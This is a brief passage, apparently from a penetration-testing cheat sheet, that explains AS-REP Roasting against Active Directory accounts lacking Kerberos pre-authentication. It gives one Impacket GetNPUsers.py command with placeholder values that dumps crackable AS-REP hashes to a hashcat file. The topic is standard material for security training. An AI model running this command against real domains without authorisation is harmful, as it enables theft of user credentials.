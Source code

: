 **AS-REP Roasting** is an attack method used in Active Directory environments where an attacker targets user accounts that do not require pre-authentication. It involves requesting and then cracking the encrypted ticket-granting service response (AS-REP).

```bash
GetNPUsers.py domain.local/user:password -dc-ip x.x.x.x -outputfile asrep.hashcat
```